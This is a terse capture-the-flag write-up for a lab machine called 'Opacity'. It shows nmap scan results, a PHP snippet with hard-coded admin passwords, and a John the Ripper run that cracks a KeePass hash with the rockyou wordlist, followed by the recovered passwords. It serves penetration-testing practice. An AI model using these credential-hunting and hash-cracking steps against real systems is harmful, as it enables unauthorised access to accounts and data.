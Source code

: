 ## Desc

Opacity is an easy machine that can help you in the penetration testing learning process.
There are 2 hash keys located on the machine (user - local.txt and root - proof.txt). Can you find them and become root?
Hint: There are several ways to perform an action; always analyze the behavior of the application.

## Recon


```sh
Not shown: 64588 closed tcp ports (reset), 943 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```


```php
if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');


```

```sh

# john --format=KeePass opacity.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:03 0.00% (ETA: 2024-04-21 19:14) 0g/s 31.63p/s 31.63c/s 31.63C/s iloveme..diamond
741852963        (dataset)     
1g 0:00:00:27 DONE (2024-04-16 23:20) 0.03608g/s 31.75p/s 31.75c/s 31.75C/s chichi..david1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


Cl0udP4ss40p4city#8700
```